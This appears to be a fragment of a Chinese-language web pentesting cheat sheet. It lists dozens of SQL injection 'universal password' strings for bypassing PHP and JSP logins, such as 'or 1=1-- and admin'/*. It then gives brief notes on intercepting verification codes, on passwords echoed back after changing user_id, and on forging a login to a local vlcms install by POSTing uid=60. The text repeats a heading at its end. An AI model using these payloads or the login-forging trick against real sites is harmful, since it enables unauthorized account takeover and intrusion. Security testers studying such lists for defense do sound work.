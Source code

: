 </code></pre>
<pre><code>PHP万能密码

admin'/*
密码*/'

'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1--</code></pre>
<pre><code>jsp 万能密码

1'or'1'='1
admin' or 1=1/*</code></pre>
<hr/>
<h3>2、验证码、密码回显</h3>
1、可以拦截到验证码（或者验证固定）
2、通过修改user_id，密码会返回在数据包中（至少是加密的）
<hr/>
<h3>3、登录检测不安全</h3>
1、如下传入参数后登录成功（具体参数可能需要代码审计，或通过已有账号抓包分析）
http://127.0.0.1/vlcms/index.php?s=/member/res_login/
POST:uid=60
2、再访问如下主页，判断是否真的登录成功
http://127.0.0.1/vlcms/index.php?s=/member/


### 2、验证码、密码回显

---
